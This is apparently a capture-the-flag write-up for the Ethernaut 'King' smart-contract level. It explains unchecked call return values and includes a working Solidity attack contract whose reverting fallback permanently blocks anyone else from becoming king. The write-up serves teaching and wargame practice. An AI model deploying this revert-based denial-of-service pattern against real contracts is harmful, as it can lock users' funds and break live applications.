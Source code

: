 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel9.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

Challenge's message.

>The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
Such a fun game. Your goal is to break it.
When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


At the beginning of the contract, there are defined variables such as king, owner and prize. Also, these variables are assigned when the contract is created in the payable constructor. After the definition of king and king's prize, there is a specific function called ``receive()``that works to remand the new king's prize to the ex-king address and update the new king address and king's prize when someone is the owner or sends more than the king's ether to the contract. And finally, there is a function which returns us to current king address.

As with every challenge, this contract has some potential issues. One of these issues like forgot to check the external process status. Here we go...

# Subverting

Before talking about my attack contract, I want to explain some topics. If you know about the vulnerability of **uncheck calls returns value**, you would skip this part.

### Calls In Solidity 

There are a number of ways of performing external calls in Solidity. Sending ether to external accounts is commonly performed via the ``transfer`` method. However, the ``send`` function can also be used, and for more versatile external calls the ``call`` **opcode** can be directly employed in Solidity. You can start an external calls in the contract with send ether to other contracts by

  - ``transfer`` :  (2300 gas, throws error)
  - ``send`` : (2300 gas, returns bool)
  - ``call`` : (forward all gas or set gas, returns bool)

this methods. Here we can see that when we use to send or call to send ether or perform any transactions, it returns a boolean value i.e. true or false. Unless you check this return value, you will face something critical vulnerability.

### Security Issue : Uncheck Calls Returns Value

 The ``call`` and ``send`` functions return a boolean indicating whether the call succeeded or failed. As a result, if the call return value is not checked, execution will resume even if the called contract throws an exception. If the call fails accidentally or an attacker forces the call to fail, this may cause unexpected behavior in the subsequent program logic. Here is a contract which too has an example of this problem.
 
 ```solidity
 
contract Lotto {
    bool public payedOut = false;
    address public winner;
    uint public winAmount;

    // ... extra functionality here

    function sendToWinner() public {
        require(!payedOut);
        winner.send(winAmount);
        payedOut = true;
    }

    function withdrawLeftOver() public {
        require(payedOut);
        msg.sender.send(this.balance);
    }
}
 
 ```
 This represents a Lotto-like contract, where a ``winner`` receives ``winAmount`` of ether, which typically leaves a little left over for anyone to withdraw.

The vulnerability exists on sendToWinner() function, where a send is used without checking the response. In this example, a winner whose transaction fails (either by running out of gas or by being a contract that intentionally throws in the fallback function) allows ``payedOut`` to be set to ``true`` regardless of whether ether was sent or not. In this case, **anyone can withdraw the winner’s winnings via the withdrawLeftOver function**.

## Attack Contract

Here is my attack contract.

```solidity
pragma solidity ^0.8.0;

import './King.sol';

contract Attack{

    King target;

    constructor(address payable _target) payable{
        target = King(_target);
        address(target).call{value: msg.value}("");
    }

    fallback()external{
        revert("Hack ponzi");
    }
}
```

First thing first is as always solidity version and import our target contract's file into attack contract. After that, get the instance of target contract and call it with sending more than king's prize in the constructor. When the ``call`` method works, the target contract will send ether to ex king's address and updated the attack contract as new king. Also, when someone wants to be a new king of target contract, he/she won't be a new king because of our fallback() function will have blocked this process. 

To explain more clearly, if the target contract change to kingship as different from attack contract, it will send ether to this contract but in the fallback() will have reverted to transaction. In this way, we'll stay king of the target contract every time.

### Attack Senario

Check the king of target contarct.

```shell
await contract._king()
'0x3049C00639E6dfC269ED1451764a046f7aE500c6'
```

Check the king's prize.

```shell

fromWei(await contract.prize())
'0.001'

```
When we deploy the attack contract, we must send higher than this price. It equals to 1000000000000000 wei. Let's send 2000000000000000 wei to attack contract's constructor.

<img src="">

And we get kingship of the contract forever. As ponzi getsXD

```shell
await contract._king()
'0xE27F0dB592D69A14f5FD26ba434056e22C375388'
```

**_by wasny0ps_**
